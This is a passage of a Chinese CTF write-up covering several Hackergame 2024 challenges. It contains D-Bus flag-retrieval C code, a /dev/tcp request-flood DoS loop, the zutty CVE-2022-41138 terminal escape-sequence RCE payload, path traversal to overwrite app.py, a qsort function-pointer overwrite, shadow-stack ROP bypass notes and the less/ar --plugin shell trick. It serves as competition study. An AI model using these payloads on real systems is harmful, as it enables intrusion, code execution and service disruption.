OBJ_PATH="/cn/edu/ustc/lug/hack/FlagService"
INTERFACE="cn.edu.ustc.lug.hack.FlagService"

dbus-send --system  --print-reply=literal --dest=$BUS_NAME $OBJ_PATH $INTERFACE.GetFlag1 string:"Please give me flag1"
```

flag2需要通过dbus传一个文件描述符过去，但不能是个文件。我们可以本地开一个socket server，再开一个socket连接那个socket server，最后直接把socket的fd传过去，可以用`g_dbus_proxy_call_with_unix_fd_list_sync`这个函数。

> 感觉我socket编程写的挺烂的

```c
#include <unistd.h>
#include <gio/gio.h>
#include <gio-unix-2.0/gio/gunixfdlist.h>
#include <gio-unix-2.0/gio/gfiledescriptorbased.h>
#include <glib.h>

int socket_server() {
	int fd;
	struct sockaddr_in addr;
	int ret;
	char buff[8192];
	struct sockaddr_in from;
	int ok = 1;
	int len;
	socklen_t fromlen = sizeof(from);

	if ((fd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
		perror("socket");
		ok = 0;
	}

	if (ok) {
		memset(&addr, 0, sizeof(addr));
		addr.sin_family = AF_INET;
		addr.sin_port = htons(8000);
		addr.sin_addr.s_addr = htonl(INADDR_ANY);
		if (bind(fd, (struct sockaddr *)&addr, sizeof(addr)) < 0) {
			perror("bind");
			ok = 0;
		}
	}

	puts("bind localhost:8000");

	if(ok && (listen(fd, QUEUE) == -1)) {
		perror("listen");
		ok = 0;
	}

	int reply_sock_fd = accept(fd, (struct sockaddr*)&from, &fromlen);
	puts("connection accepted");
	
	const char *msg = "Please give me flag2\n\x00";
	send(reply_sock_fd, msg, strlen(msg), 0);

	// puts(buff);

	if (fd >= 0) {
		close(fd);
	}

	return 0;
}

void flag2(GDBusProxy *proxy) {
    GVariant *result;
	GError *error = NULL;
	const gchar *str;

	
	pid_t pid = fork();
	if (pid == 0){
		// socket
		socket_server();
		return;
	}

    // GSocket *sock = g_socket_new(G_SOCKET_FAMILY_IPV4, G_SOCKET_TYPE_STREAM, G_SOCKET_PROTOCOL_TCP, &error);
	// g_assert_no_error(error);

	int sock_fd = socket(PF_INET, SOCK_STREAM, 0);
	struct sockaddr_in native_sock  = {
		.sin_family = AF_INET,
		.sin_addr.s_addr = inet_addr("127.0.0.1"),
		.sin_port = htons(8000)
	};
	int native_len = sizeof(native_sock);
	connect(sock_fd, (struct sockaddr *)&native_sock, native_len);

	// g_socket_connect(sock, g_inet_socket_address_new_from_string("127.0.0.1", 8000), NULL, &error);
	// g_assert_no_error(error);

	// int sock_fd = g_file_descriptor_based_get_fd(sock);


    GUnixFDList *fd_list = g_unix_fd_list_new_from_array  (
        &sock_fd, 1
    );

    GUnixFDList *out_fd_list = g_unix_fd_list_new  ();

    // g_socket_send (sock, );
	// g_assert_no_error(error);

	g_printf("flag2...\n");
	result = g_dbus_proxy_call_with_unix_fd_list_sync(
                    proxy,
					"GetFlag2",
					g_variant_new ("(h)", 0),
					G_DBUS_CALL_FLAGS_NONE,
					-1,
                    fd_list,
                    &out_fd_list,
					NULL,
					&error);
	g_assert_no_error(error);

	g_variant_get(result, "(&s)", &str);
	g_printf("The server answered: '%s'\n", str);
	g_variant_unref(result);
	// flag{n5tw0rk_TrAnSpaR5Ncy_d0n0t_11k5_Fd_efd7ee2235}
}
```

flag3则要求我们只能用一个`/proc/[pid]/comm`为getflag3的程序来请求dbus，但是分发的那个`getflag3`只能请求不能回显。但是很显然`comm`只包括了被执行的程序文件名而不包括绝对路径，我们只要把自己的程序名字改成`getflag3`就行了。我的做法是执行一堆`system`之后execve自己。看flag提示似乎直接用prctl系统调用就可以改名。总之这问方法挺多。

（另外shell执行`dbus-send`的时候comm似乎是dbus-send）

```c
void getflag3(GDBusProxy *proxy)
{
	GVariant *result;
	GError *error = NULL;
	const gchar *str;

	g_printf("flag3...\n");
	result = g_dbus_proxy_call_sync(proxy,
					"GetFlag3",
					g_variant_new ("()"),
					G_DBUS_CALL_FLAGS_NONE,
					-1,
					NULL,
					&error);
	g_assert_no_error(error);
	g_variant_get(result, "(&s)", &str);
	g_printf("The server answered: '%s'\n", str);
	g_variant_unref(result);
	
}

void flag3(GDBusProxy *proxy, char **environ) {
    GVariant *result;
	GError *error = NULL;
	const gchar *str;

	char * new_args[3] = {"/dev/shm/getflag3", "flag3", NULL};

	system("cp /dev/shm/executable /dev/shm/getflag3");
	system("chmod +x /dev/shm/getflag3");
	execve("/dev/shm/getflag3", new_args, environ);

	// flag{prprprprprCTL_15your_FRiEND_45cb8a68a7}
}

int main( int argc , char ** argv, char **environ)
{
    GDBusConnection * connection;
	GError *error = NULL;
	const char *version;
	GVariant *variant;
    
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if(connection == NULL) {
        return -1;
    }

    proxy = g_dbus_proxy_new_sync(connection,
				      G_DBUS_PROXY_FLAGS_NONE,
				      NULL,				/* GDBusInterfaceInfo */
				      BUS_NAME,		/* name */
				      OBJ_PATH,	/* object path */
				      INTERFACE,	/* interface */
				      NULL,				/* GCancellable */
				      &error);

    // send_a_method_call(connection,"Hello, D-Bus");
	if (argc > 1) {
		getflag3(proxy);
	} else {
    	flag3(proxy, environ);
	}

    return 0;
}
```

## ![](https://img.shields.io/badge/general-af2447) 动画分享

这个题用rust实现了一个极简的文件HTTP服务器，然后跑在一个chroot的0.12旧版zutty终端模拟器下。我们可以提交一个程序和它交互。把服务器干死（不能正常响应或者退出）可以获得flag1，flag2则需要越权读取。

首先这个服务器是基于TcpStream的，我不太了解Rust，但这个应该是单线程的，并且后面请求文件的时候会一次把整个文件读出来。所以这样没有并发能力的服务器应该非常弱CC这种DoS攻击，我们只要popen出来一堆请求疯狂去GET chroot里面最大的那个文件就行了。一个进程就能实现这种DoS

```py
for i in range(40):
    try:
        subprocess.Popen(['bash', '-c', "while true; do echo GET /usr/lib/x86_64-linux-gnu/libLLVM-11.so.1; done >/dev/tcp/localhost/8000"], stdout=subprocess.DEVNULL)
        # subprocess.Popen(['python3', __file__, 'sub', str(i)], stdout=subprocess.DEVNULL)
        # for j in range(40):
        #     connect_only()

    except BlockingIOError:
        break
    except:
        raise
```

另外我还试了搞一堆socket只connect不发信，也能达到效果，这个应该算是SYN攻击？

但是很可惜的是，也正因为这个服务端是单线程，就算有海量请求它的内存占用也不会很大，所以不会触发OOM Killer，除此外也想不到别的方式能杀死这个进程了。

为什么我这么执着于杀死这个rust server，是因为我知道zutty这个版本有一个RCE的洞，即CVE-2022-41138（是这个项目唯一一个CVE），甚至gentoo上能找到poc，如果有一个程序向终端模拟器输出了下面的内容，就会触发`id`执行：

```
\x1bP$q\nid;\n\x1b\\
```

前面的`\x1bP$q`是DECRQSS (Request Status String)前缀，但是zutty判断前缀后面内容不合法时，会把这部分内容回显，也就是漏到终端模拟器跑的程序里面。假如这里面藏了换行符，那么漏下去的内容就作为shell命令执行。

那么对应到fileserver，就是每次请求的时候会把请求log到标准输出中。虽然fileserver是以`\n`分隔请求，但是我试了试zutty用`\r`也可以RCE，而这就不会被fileserver切开了。

但是这有个前提，就是终端模拟器里跑的得是个shell。如果是别的程序，那其实就是以stdin输入，比如如果里面跑的是python交互，那就得到的是python里那个id函数。如果是rust写的fileserver，则什么也不会发生，因为没有任何处理stdin输入的请求。

那么假设有办法把fileserver杀死了，那么之前stdin缓冲区的输入会全部进入shell中触发命令执行。因为退出了chroot进程，这时执行命令的就是普通的root shell，就可以随意读文件或者改权限了。

所以看看大伙怎么把这个服务器搞死。感觉要大腿拍烂了。

> 赛后：大腿真拍烂了，原来ctrl-C 在终端模拟器里就是\x03这个字符。但凡我把non printable character都遍历一边也不至于

## ![](https://img.shields.io/badge/math-90b452) 关灯
前三问直接z3一把梭了

第4题应该是要好好做了。1D关灯题应该本质上等价于一个带状矩阵的布尔线性方程组求解（异或和与分别为加法和乘法），扩展到3D可能拓展为6阶张量，或者还是一个百万大小的稀疏矩阵线性方程组求解。如果能提前求出逆的话应该可以达到它那个速度需要的要求。

## ![](https://img.shields.io/badge/web-0c4d72) 禁止内卷

这个题可以上传一个json，里面是个数组，服务端会算上传数组和目标数组的方差。我们可以上传两个文件，在某一个位置上差1，就可以通过两轮方差的差定出这个位置的内容。但是很不巧服务端会把答案里的负数取成0，所以这种方法会丢失信息。

所以这题玩的其实是目录穿越。

```py
filepath = os.path.join(UPLOAD_DIR, filename)
```
当filename可控时，且不说可以`..`接出来，如果filename以`/`开头会直接忽略`UPLOAD_DIR`把filename视为绝对路径，是不是很神奇？之后因为这个题flask还开了reload，可以直接覆盖`app.py`拿shell。

## ![](https://img.shields.io/badge/binary-c46bf9) 我们的快排確有問題

这个题是玩stdlib的qsort的，其中比较函数设计有缺陷，当两个数有一个小于2.5时，必然会返回前一个小于后一个的结论。

```c
int whos_jipiei_is_better(const void *const pa, const void *const pb) {
    const double a = *(const double *)pa;
    const double b = *(const double *)pb;

    if (!a || !b) {
        return 0;
    }
    if (a < 2.5 || b < 2.5) {
        puts("With such grades, how can we sort them?");
        return -1;
    }
    if (a < b)
        return -1;
    if (a > b)
        return 1;
    return 0;
}

```

首先手玩，加入少量小于2.5的数，会发现当输入的待排序数组长度大于128时，高概率会段错误。

qsort大致原理是把比中间某个数大和某个数小的排到两边，然后两边分别以一半的数组大小进行内部排序。因为已知右边这组所有的数必然会大于中间的数，所以qsort认为右边这组最小的数遇到了原来中间的数一定会停下来，所以没做边界检查，谁知道结果会不停。

不停的结果就是有的操作数会滑到bss段的上一个变量，也就是`gms.sort_func`，用于排序的函数指针。恰好，我们的后门函数地址转换为浮点数，也是小于2.5的。为了防止段错误，这种操作最多只能进行一次。

所以这样的数组刚好可以导致函数指针被覆盖，但是又不会报段错误。

```py
STU_NUM = 128
STU_GPA = [5 for  i in range(STU_NUM)]
STU_GPA[123] = long_to_double(real_backdoor)
```

这里后面我们用system的plt表，然后当然作为排序算法是可以传参数进去的，第一次调用的参数就是最中间那个数。我们把那里存成bss的地址，然后在输入数组里埋下一个getflag程序就行了（不知道为什么/bin/sh不行，可能是缓存区没关的过）

## ![](https://img.shields.io/badge/binary-c46bf9) 哈希三碰撞
其实算是逆向+密码学。只做了第一问，找出三个SHA256后4个字节完全相同的8字节串。生日攻击算1000000个SHA256就有大量三碰撞了。

二三问完全没思路。

> 赛后：去找区块链硬分叉。思维要活跃，这个题其实比较misc
> 然后，把反编译喂给AI生成py代码是什么神奇操作我去。思维要活跃
>
> https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/official/%E5%93%88%E5%B8%8C%E4%B8%89%E7%A2%B0%E6%92%9E/chat2.md

## ![](https://img.shields.io/badge/binary-c46bf9) 新生赛上的零解题

这个题有点意思，涉及了intel尚未推广的CET ROP缓解措施，影子栈SHSTK和IBT。

第一问给了一个带影子栈的C++程序，但是这个影子栈不是CPU层面，而是通过C++的异常处理机制在软件上实现的，影子栈位于一个mmap段，地址已知。并且因为是纯手工实现，甚至没有编译器支持，所以影子栈的判定位于canary判定之前。

这样第一个问题就是，即使我们破坏了canary，因为影子栈对返回地址检测更早，并且异常处理会跳过后面的代码，所以事实上会导致canary失效。另外通过对`old_rbp`和返回地址的恰当处理，我们可以让异常处理机制误以为我们在其他异常块里，并且可以导致一次栈迁移劫持程序流。具体来说：

- old_rbp: 异常结束后栈迁移所在位置。值+8是异常块结束后要返回的地址
- ret_addr: 放在哪个try块里，就决定了当前要进入哪个异常块。

所以可以第一轮直接把栈迁移到影子栈的那块mmap里，等效于知道了栈地址。第二轮栈溢出就可以直接写ROP链了，然后返回地址放在ROP的开头。ROP链构造可以用`ropper`


第二问需要配intel sde模拟环境，我一直配不太好，再加上pwntools特别卡，就先不研究了。

> 第二问绕过canary: 可以直接+跳过scanf
> 绕过影子栈：intel sde的影子栈可读可写，可以直接pwndbg搜索内存，vmmap可看偏移

## ![](https://img.shields.io/badge/AI-8b9164) 那个题目特别长的AI题

总之是某个千问1.5B大模型的输出，但是把特定字母（第一问是hackergame，第二问更多还包括些空格）都替换为x，我们需要还原原文（sha256给定）

第一问借助了他们puzzle hunt玩家特别喜欢的[nutrimatic](https://nutrimatic.org/2024/)，写了个简单查询脚本：
```py
client = requests.session()

HOST = 'https://nutrimatic.org/2024/'
alpha = '[hackergamex]'

while True:
    s = input('> ')
    if s == 'exit':
        break
    print(s.replace('x', alpha))
    resp = client.get(HOST, params={'q': s.replace('x', alpha)})
    soup = BeautifulSoup(resp.text, 'lxml')

    for ele in soup.select('span')[:10]:
        print(ele.text)
```

结合语义基本上能做出绝大多数单词，可能只有不到5个单词会有一定歧义。所以我还做了一个hash检查，把歧义单词记录下来，随机替换后计算hash，说不定就能和结果对上。我最后卡的两个词一个是`stakes are high`，一个是`race/game was on`。

- In txx xxxnd xxll of Hxxxxxxxxx 2024, wxxxx txx wxlls xxx linxd witx sxxxxns sxowinx txx lxtxst xxploits fxox txx xybxx woxld, xontxstxnts xxtxxxxd in x fxxnzy, txxix xyxs xluxd to txx vixtuxl xxploits. Txx xtxospxxxx wxs xlxxtxix, witx txx sxxll of fxxsxly bxxwxd xoffxx xinxlinx witx txx sxxnt of buxnt Etxxxnxt xxblxs. As txx fixst xxxllxnxx wxs xnnounxxd, x txxx of xxxxxxs, dxxssxd in lxb xoxts xnd xxxxyinx lxptops, spxintxd to txx nxxxxst sxxvxx xoox, txxix fxxxs x xix of xxxitxxxnt xnd dxtxxxinxtion. Txx xxxx wxs on, xnd txx stxxxs wxxx xixx, witx txx ultixxtx pxizx bxinx x xoldxn txopxy xnd txx bxxxxinx xixxts to sxy txxy wxxx txx bxst xt xxxxxinx xodxs xnd xxxxinx systxxs in txx lxnd of txx xisinx sun.
- 
- In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their faces a mix of excitement and determination. The game was on, and the stakes were high, with the ultimate prize being a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.

----

还有几个题做了半天没出结果，比如那个less题那个cat题那个ZFS题。准备看官方题解了。

## LESS

前半思路基本全对，就是lesspipe加扩展名。但是真的只差一个搜索，比如搜lesspipe RCE。

但是后半的扩展名程序用错了，我拿gzip试了半天，但这个最多只能造个压缩炸弹把less给OOM了，并不能造成攻击。但是看题解，用ar这个打包程序的命令，利用`ar @.a`把`.a`作为一个额外读入options的文件，然后`ar`本身可以用`--plugin`加载任意动态链接库，所以只要传一个包含`onload`函数的动态库就可以getshell。

https://seclists.org/fulldisclosure/2014/Nov/74
https://seclists.org/oss-sec/2014/q4/1027